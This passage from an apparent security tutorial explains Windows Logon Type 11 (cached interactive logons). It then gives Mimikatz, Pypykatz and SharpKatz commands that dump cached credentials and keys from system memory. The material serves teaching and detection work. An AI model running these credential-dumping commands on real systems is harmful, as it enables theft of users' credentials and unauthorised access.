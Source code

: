 ### **Logon Type 11 : CachedInteractive**

Logon Type 11 event is generated when a user login to the machine via console and the credentials are validated through cached credentials means either the user is not connected to the organizational network or the domain controller is not reachable. Windows support logon using cached credentials for roaming users to make their life easy when they are disconnected from the organizational network.

For our demonstration, we have modified the DNS setting on the machine and tried to logon to the machine so that the machine validates the credentials from the cache instead of a domain controller. We can see in the below screenshot that it has generated a Logon Type 11 event.

![](https://static.wixstatic.com/media/8b80b6_372f4a126c49447face0a1b4d6835ecf~mv2.png/v1/fit/w_300,h_300,al_c,q_5/file.png)

CachedInteractive Logon Event

**Using Mimikatz**

We can use the below mentioned [Mimikatz](https://github.com/gentilkiwi/mimikatz) commands for extracting the credentials.

```
privilege::debug
sekurlsa::ekeys

```

![](https://static.wixstatic.com/media/8b80b6_fa8496de14fa4a09aa2eb3677e2a9907~mv2.png/v1/fit/w_300,h_300,al_c,q_5/file.png)

Extract Credentials using Mimikatz

**Using Pypykatz**

We can use the below mentioned [Pypykatz](https://github.com/skelsec/pypykatz) commands for extracting the credentials.

```
pypykatz.exe live lsa

```

![](https://static.wixstatic.com/media/8b80b6_489395dcd3d14acaae264ddde0fc0858~mv2.png/v1/fit/w_300,h_300,al_c,q_5/file.png)

Extract Credentials using Pypykatz

**Using Sharpkatz**

We can use the below mentioned [Sharpkatz](https://github.com/b4rtik/SharpKatz) commands for extracting the credentials.

```
SharpKatz.exe --Command ekeys

```

![](https://static.wixstatic.com/media/8b80b6_d8d40a06638e4b408effb1dbd0b4e2e7~mv2.png/v1/fit/w_300,h_300,al_c,q_5/file.png)

Extract Credentials using Sharpkatz
